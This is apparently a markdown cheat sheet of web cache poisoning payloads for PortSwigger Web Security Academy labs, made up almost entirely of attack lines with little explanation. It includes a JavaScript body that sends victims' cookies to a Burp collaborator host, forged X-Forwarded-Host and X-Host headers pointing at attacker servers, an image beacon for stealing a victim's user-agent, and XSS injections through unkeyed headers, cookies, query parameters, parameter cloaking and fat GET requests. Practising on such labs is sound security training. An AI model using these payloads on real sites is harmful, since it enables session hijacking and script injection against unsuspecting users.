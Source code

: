 # Web Cache Poisoning

## If X-Forwarded-Host and X-Cache works:
```
  go to the **exploit server** ->

  in "file": /recources/js/tracking.js
  in "body": document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')
```
![dsx](https://github.com/user-attachments/assets/e3d70422-eda9-40e9-86e4-eee50eb135e3)

## Web cache poisoning with an unkeyed header:
``
  X-Forwarded-Host: kek.com"></script><script>alert(document.cookie)</script>//
``
## Web cache poisoning with an unkeyed cookie:
``
  Cookie: session=x; fehost=prod-cache-01"}</script><script>alert(1)</script>//
``
## Web cache poisoning with multiple headers:

    On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. 
    In body write alert(document.cookie) script.

``
  GET /resources/js/tracking.js HTTP/1.1
  Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
  X-Forwarded-Host: exploit-server.web-security-academy.net/
  X-Forwarded-Scheme: http
``
## Targeted web cache poisoning using an unknown header

    HTML is allowed in comment section. Steal user-agent of victim with <img src="http://collaborator.com"> payload.
``
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
``
## Web cache poisoning via an unkeyed query string
``
/?search=kek'/><script>alert(1)</script>
Origin:x
``
## Web cache poisoning via an unkeyed query parameter
``
/?utm_content=123'/><script>alert(1)</script>
``
## Parameter cloaking
``
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
``
## Web cache poisoning via a fat GET request
``
GET /js/geolocate.js?callback=setCountryCookie
Body:
callback=alert(1)
``
## URL normalization
``
/random"><script>alert(1)</script>
Cache this path and then deliver URL to the victim
``
